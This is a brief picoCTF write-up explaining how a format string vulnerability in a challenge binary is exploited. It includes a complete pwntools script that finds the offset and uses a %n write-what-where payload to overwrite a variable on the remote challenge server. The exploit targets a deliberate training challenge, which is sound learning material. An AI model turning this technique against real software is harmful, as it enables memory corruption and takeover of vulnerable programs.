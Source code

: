 
Approach

- step 1<br>
For this challenge we make use of a format string attack to change the value of sus variable.
First we calculate the offset bby using the Fmtstr tools from pwntools.
Then we make use of write-what-where exploit to send a payload with %n specifier to write the value of sus as 0x67616c66.
We can write the following script


```

 from pwn import *

elf = context.binary = ELF('./vuln')

def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    response = p.recvall()
    p.close()
    return response

offset = FmtStr(send_payload).offset
info(f"{offset=}")
info(f"{elf.symbols['sus']=}")

p = remote('rhea.picoctf.net', 65006)

payload = fmtstr_payload(offset, {elf.symbols['sus']: 0x67616c66})

p.sendline(payload)

info(p.recvall().decode())

p.close()
```

![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Binary%20Exploitation/picoCTF/assets/fs3.png)
